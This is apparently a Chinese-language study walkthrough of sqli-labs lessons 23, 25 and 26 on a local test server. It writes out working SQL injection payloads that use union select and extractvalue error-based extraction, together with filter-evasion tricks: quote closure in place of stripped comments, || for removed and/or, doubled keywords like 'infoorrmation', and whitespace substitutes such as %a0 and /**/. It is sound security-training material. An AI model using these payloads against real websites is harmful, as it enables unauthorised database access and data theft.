 ![截屏2021-06-11 上午12.34.49.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623343019236-08f9d8be-885a-40d1-b515-ba279793b126.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=t5cF0&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-11%20%E4%B8%8A%E5%8D%8812.34.49.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=888704&status=done&style=none&title=&width=2604)<br />输入<br />http://127.0.0.1:8081/Less-23/?id=1' a%23b<br />发现结果中ab紧挨在一起，判断系统将注释符过滤掉了<br />![截屏2021-06-11 上午12.41.29.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623343310342-e001f341-1a96-4862-aaa2-79c6a42feec6.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=TaHhX&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-11%20%E4%B8%8A%E5%8D%8812.41.29.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=976528&status=done&style=none&title=&width=2604)<br />![截屏2021-06-11 上午12.41.36.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623343318588-5219adf9-0c9f-46bf-affd-80ee3c8c4769.png#crop=0&crop=0&crop=1&crop=1&height=186&id=biyQQ&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-11%20%E4%B8%8A%E5%8D%8812.41.36.png&originHeight=186&originWidth=382&originalType=binary&ratio=1&rotation=0&showTitle=false&size=9444&status=done&style=none&title=&width=382)<br />--+注释同理也被过滤<br />此处sql 语句为<br />$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";<br />输入<br />http://127.0.0.1:8081/Less-23/?id=-1' union select 1,@@datadir,'3<br />其中-1' union select 1,@@datadir,’3，第一个’(单引号)闭合-1，第二个’(单引号)闭合后面 的。这样将查询内容显示在 username 处<br />![截屏2021-06-11 上午1.07.10.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623344846740-decdec71-98c8-4eb3-8c2f-d08b8c07309b.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=Id63P&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-11%20%E4%B8%8A%E5%8D%881.07.10.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=969525&status=done&style=none&title=&width=2604)<br />也可以输入<br />http://127.0.0.1:8081/Less-23/?id=1'or extractvalue(1,concat(0x7e,database(),0x7e)) or '1'='1<br />利用 or '1'='1 进行闭合（ or ' 也可以）<br />![截屏2021-06-11 上午1.12.02.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623345162760-e6900823-81a3-4ca9-82cd-e1aed32a6156.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=wSpyd&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-11%20%E4%B8%8A%E5%8D%881.12.02.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=976979&status=done&style=none&title=&width=2604)
## 绕过and/or字符过滤
![截屏2021-06-12 下午4.58.23.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623488324740-68318ba9-d77e-4d0b-a3c3-4c787c234291.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=WKCd3&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%884.58.23.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=2360794&status=done&style=none&title=&width=2604)<br />输入<br />http://127.0.0.1:8081/Less-25/?id=-1 2and 4or5'<br />发现此题将and和or都替换为空<br />![截屏2021-06-12 下午5.10.22.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623489087703-66e8ab3a-aabc-46ac-83d3-65e6ee5542de.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=M6Aj8&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%885.10.22.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1080432&status=done&style=none&title=&width=2604)<br />可以尝试使用 && 和 ||<br />经尝试&&会出现莫名其妙的错误，故使用||<br />输入<br />http://127.0.0.1:8081/Less-25/?id=-1' || extractvalue(1,concat(0x7e,version(),0x7e)) || '<br />![截屏2021-06-12 下午5.19.09.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623489570629-eb59fd85-a04b-48e3-8f99-5738c1ddbc7b.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=rIkoC&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%885.19.09.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1082062&status=done&style=none&title=&width=2604)<br />查表<br />http://127.0.0.1:8081/Less-25/?id=-1' || extractvalue(1,concat(0x7e,(select group_concat(table_name) from **infoorrmation**_schema.tables where table_schema=database()),0x7e)) || '<br />![截屏2021-06-12 下午5.22.01.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623489746996-25111e7a-f3ad-434f-8a21-fc60bab28d68.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=XFIrQ&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%885.22.01.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1103435&status=done&style=none&title=&width=2604)<br />注意这里会把or置空，所以 information 应写作 infoorrmation 来逃逸
## 绕过空格过滤
如下字符可以当作空格使用

- %09 TAB键（水平）
- %0a 新建一行
- %0c 新的一页
- %0d return功能
- %0b TAB键（垂直）
- %a0 空格
- /**/ 代替空格
- 用()将名词括起来

![截屏2021-06-12 下午5.33.08.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623490402165-c1bc86e5-d408-4421-81d3-8746e56a9ab5.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=kI83X&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%885.33.08.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1557859&status=done&style=none&title=&width=2604)<br />本题目将空格和注释都过滤掉了<br />输入<br />http://127.0.0.1:8081/Less-26/?id=999' union%a0select%a01,2,'3<br />注意id后面不能写-1了，只能写一个尽可能大的数，因为 - 被过滤了（--为注释）<br />![截屏2021-06-12 下午5.42.31.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623490964675-d07b5209-7a88-4130-b4c7-c8eec3d6aae8.png#crop=0&crop=0&crop=1&crop=1&height=1662&id=aI0FA&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-12%20%E4%B8%8B%E5%8D%885.42.31.png&originHeight=1662&originWidth=2604&originalType=binary&ratio=1&rotation=0&showTitle=false&size=995260&status=done&style=none&title=&width=2604)

---
